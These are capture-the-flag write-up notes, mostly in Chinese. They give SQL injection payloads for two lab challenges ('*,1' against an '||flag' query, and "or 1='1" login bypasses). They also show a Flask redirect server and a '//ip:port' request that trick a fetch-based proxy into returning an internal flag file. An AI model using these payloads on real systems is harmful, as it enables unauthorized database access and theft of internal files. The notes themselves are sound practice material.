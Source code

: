 这道题目需要我们去对后端语句进行猜测，有点矛盾的地方在于其描述的功能和实际的功能似乎并不相符，通过输入非零数字得到的回显1和输入其余字符得不到回显来判断出内部的查询语句可能存在有||，也就是select 输入的数据||内置的一个列名 from 表名，进一步进行猜测即为select post进去的数据||flag from Flag(含有数据的表名，通过堆叠注入可知)，需要注意的是，此时的||起到的作用是or的作用

 

解法1

输入的内容为*,1

内置的sql语句为sql="select".sql="select".post[‘query’]."||flag from Flag";

如果$post[‘query’]的数据为*,1，sql语句就变成了select *,1||flag from Flag，也就是select *,1 from Flag，也就是直接查询出了Flag表中的所有内容

### [极客大挑战 2019]EasySQL

`username=\&password=or 1='1`或者 `a' or 1=1 #`

## [ImaginaryCTF24]readme2

官解是通过host覆盖url进行绕过，以及\t的解析，我也不知道为什么。。。

找到一篇文章，介绍了重定向的方法。[this](https://www.ctfiot.com/192407.html)

Searching around, I discovered this [article](https://mizu.re/post/proxifier) by Mizu. Reading through the writeup, the payload that he used was \\127.0.0.1\a. When I put \\google.com it redirected to official Google website.

At first, I got no clue for the next steps. But, thanks to @vicevirus hints the solution would be to utilize fetch() redirection.

For this, we may need to setup a HTTP server that will redirect to http://localhost:3000/flag.txt

```python
from flask import Flask, redirect

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    return redirect("http://localhost:3000/flag.txt")	

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=8080)
```

``` Http
GET //ip:port
Host: xxx
```

补充：(MDN官方URL的例子）[https://developer.mozilla.org/en-US/docs/Web/API/URL/URL#examples]
``` js
new URL("//foo.com", "https://example.com");
// => 'https://foo.com/' (see relative URLs)
``` 
 
